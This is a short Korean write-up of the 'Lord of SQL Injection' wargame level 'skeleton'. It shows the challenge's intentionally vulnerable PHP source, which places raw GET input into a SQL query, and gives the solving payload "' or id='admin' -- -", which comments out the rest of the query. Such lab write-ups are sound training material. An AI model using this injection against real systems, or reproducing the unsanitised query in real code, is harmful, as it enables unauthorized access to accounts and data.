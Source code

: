 ## Lord of SQL Injection No. 10- skeleton
## 문제 출제 의도
Get방식으로 입력 받은 뒤에 추가 문자열이 있어도 문제 해결이 가능한지 확인한다.
## 소스 코드 분석
+ 소스 코드
skeleton의 소스 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id'] == 'admin') solve("skeleton"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - Get 방식으로 받은 문자열에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - 문제 풀이에 성공하는 조건은 쿼리를 통해 받은 id 값이 'admin'이면 풀이에 성공한다.
## 문제 해결
+ 추가 문자열
    ~~~
    ?pw=' or id='admin' -- -
    ~~~
    을 입력하면 뒤의 'and 1=0'는 주석처리 되어 문제가 해결된다.